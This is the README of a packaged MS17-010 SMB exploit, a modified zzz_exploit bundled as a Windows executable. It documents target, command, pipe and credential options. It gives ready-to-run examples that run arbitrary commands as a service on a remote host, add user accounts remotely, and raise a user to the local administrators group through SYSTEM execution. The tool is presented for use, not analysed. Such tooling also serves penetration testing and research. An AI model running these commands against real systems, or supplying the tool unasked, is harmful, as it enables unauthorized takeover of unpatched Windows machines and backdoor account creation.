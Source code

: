 # ms17-010
This is a modified version of the [Worawit Wang: GitHub](https://github.com/worawit/MS17-010/) zzz_exploit for MS17-010.<br>
It implements a few options such as username/password specification and an arbitrary command to be executed.<br>
It does not change anything related to the SMB exploitation<br>
This is a bundle with an executable and dependencies and DOES NOT require python install.

# Usage

Unzip the bundle and from the command line execute ms17-010-zzz.exe<br><br>
ms17-010-zzz.exe -h<br>
usage: ms17-010-zzz.exe [-h] -t TARGET -c COMMAND -P PIPE [-u USER]
                        [-p PASSWORD]
<br><br>
MS17-010 - zzz_explot modified and converted to binary https://github.com/irgoncalves/ms17-010<br>
<br>
optional arguments:<br>
  -h, --help            show this help message and exit<br>
  -t TARGET, --target TARGET<br>
                        Target for exploitation<br>
  -c COMMAND, --command COMMAND<br>
                        Command to be executed as a service<br>
  -P PIPE, --pipe PIPE  Pipe to connect (e.g. netlogon)<br>
  -u USER, --user USER  Username to authenticate in case no anomymous<br>
                        connection to a pipe is allowed<br>
  -p PASSWORD, --password PASSWORD<br>
                        Password for the user<br>
<br>
Example: ms17-010.exe -t 172.16.0.2 -c 'net user /add testusr teste123'<br>
<br>

Example to add a user remotely connecting anonymously to a named pipe:<br>
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123"<br>
<br>
Example to add a user remotely specifying a named pipe and a valid non-administrator user:<br>
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123" -P netlogon -u svruser -p abc123<br>
<br>
Example to locally escalate privilege for an existent user (all commands are executed by SYSTEM):<br>
ms17-010-zzz.exe -t 127.0.0.1 -c "net localgroup administrators teste2 /add" -P netlogon -u teste2 -p teste2123

# Limitations
Currently supports only x64 platform (Tested running from Windows 10, 2K8)
